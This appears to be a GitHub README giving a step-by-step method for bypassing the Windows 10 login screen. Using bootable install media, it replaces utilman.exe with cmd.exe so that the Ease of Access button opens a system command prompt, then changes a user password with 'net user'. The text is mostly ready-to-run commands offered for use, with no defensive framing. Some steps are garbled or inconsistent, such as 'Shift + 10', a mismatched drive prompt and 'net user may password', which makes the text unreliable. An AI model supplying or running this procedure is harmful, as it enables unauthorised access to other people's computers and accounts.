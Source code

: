 <h1 align="center">Bypass Windows Login Screen</h1>


## Requirement

A Computer, Bootable USB for Windows 10

1. Restart and hit Shift + 10

2. X: \Sources>

Input
```bash
wmic logicaldisk get name
```

Output:
    Name
    C:
    D:
    E:
    X:


3. X: \Sources>

Input
```bash
C:
#the directory which comtains your system files
```


4. C: \>

Input
```bash
dir
```

Output:
Volume in drive C is System Reserved
Volume Serial Number is 56E1-426F

Directory of C:\
    File Not Found


5. E: \>

Input
```bash
D:
```


6. D: \>

Input
```bash
cd Windows
```


7. D: \Windows>

Input
```bash
cd System32
```


8. D: \Windows\System32>

Input
```bash
ren utilman.exe utilman2.exe
```


9. D: \Windows\System32>

Input
```bash
copy cmd.exe utilman.exe
```


10. Click Ease of Access - cmd will open

11. net user may password
